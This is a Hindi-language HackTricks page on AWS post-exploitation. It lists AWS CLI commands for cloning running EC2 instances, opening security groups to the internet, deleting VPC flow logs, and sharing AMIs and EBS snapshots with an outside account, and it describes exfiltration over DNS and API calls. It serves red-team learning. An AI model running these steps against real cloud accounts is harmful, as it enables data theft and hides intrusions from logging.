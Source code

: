 # AWS - EC2, EBS, SSM & VPC पोस्ट एक्सप्लॉइटेशन

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## EC2 & VPC

अधिक जानकारी के लिए देखें:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **दुर्भावनापूर्ण VPC मिरर**

VPC ट्रैफिक मिररिंग **EC2 इंस्टेंसेस के इनबाउंड और आउटबाउंड ट्रैफिक की प्रतिलिपि बनाती है जो VPC के भीतर होती है**, इंस्टेंसेस पर कुछ भी इंस्टॉल किए बिना। यह डुप्लिकेट ट्रैफिक आमतौर पर विश्लेषण और निगरानी के लिए नेटवर्क इंट्रूजन डिटेक्शन सिस्टम (IDS) जैसी चीज़ों को भेजी जाती है।\
एक हमलावर इसका दुरुपयोग कर सभी ट्रैफिक को कैप्चर कर सकता है और उससे संवेदनशील जानकारी प्राप्त कर सकता है:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### चल रहे इंस्टेंस की प्रतिलिपि बनाएं

इंस्टेंसेस आमतौर पर कुछ प्रकार की संवेदनशील जानकारी रखते हैं। अंदर जाने के विभिन्न तरीके हैं (देखें [EC2 प्रिविलेज एस्केलेशन ट्रिक्स](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md))। हालांकि, यह जांचने का एक और तरीका कि इसमें क्या है, वह है **एक AMI बनाना और उससे एक नया इंस्टेंस चलाना (यहां तक कि आपके अपने खाते में भी)**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBS स्नैपशॉट डंप

**स्नैपशॉट्स वॉल्यूम्स के बैकअप होते हैं**, जिनमें आमतौर पर **संवेदनशील जानकारी** होती है, इसलिए उन्हें जांचने से यह जानकारी प्रकट होनी चाहिए।\
यदि आपको कोई **वॉल्यूम बिना स्नैपशॉट के** मिलता है, तो आप: **स्नैपशॉट बना सकते हैं** और निम्नलिखित क्रियाएं कर सकते हैं या बस **इसे खाते के अंदर एक इंस्टेंस में माउंट कर सकते हैं**:

{% content-ref url="../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md" %}
[aws-ebs-snapshot-dump.md](../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md)
{% endcontent-ref %}

### डेटा एक्सफिल्ट्रेशन

#### DNS एक्सफिल्ट्रेशन

यहां तक कि अगर आप एक EC2 को इस तरह से लॉक कर देते हैं कि कोई ट्रैफिक बाहर नहीं जा सकता, तो भी यह **DNS के माध्यम से एक्सफिल कर सकता है**।

* **VPC फ्लो लॉग्स इसे रिकॉर्ड नहीं करेंगे**।
* आपके पास AWS DNS लॉग्स तक पहुंच नहीं है।
*   इसे निष्क्रिय करने के लिए "enableDnsSupport" को false पर सेट करें:

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### API कॉल्स के माध्यम से एक्सफिल्ट्रेशन

एक हमलावर उस खाते के API एंडपॉइंट्स को कॉल कर सकता है जिसे वह नियंत्रित करता है। Cloudtrail इन कॉल्स को लॉग करेगा और हमलावर Cloudtrail लॉग्स में एक्सफिल्ट्रेट डेटा देख पाएगा।

### ओपन सिक्योरिटी ग्रुप

आप इस तरह से पोर्ट्स खोलकर नेटवर्क सेवाओं तक आगे की पहुंच प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### SSM पोस्ट एक्सप्लॉइटेशन

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### ECS में Privesc

EC2 इंस्टेंस को चलाना और उसे ECS इंस्टेंसेस को चलाने के लिए रजिस्टर करना संभव है और फिर ECS इंस्टेंसेस का डेटा चुराना।

[**अधिक जानकारी के लिए यह देखें**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### VPC फ्लो लॉग्स हटाएं
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMI साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBS स्नैपशॉट शेयर करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
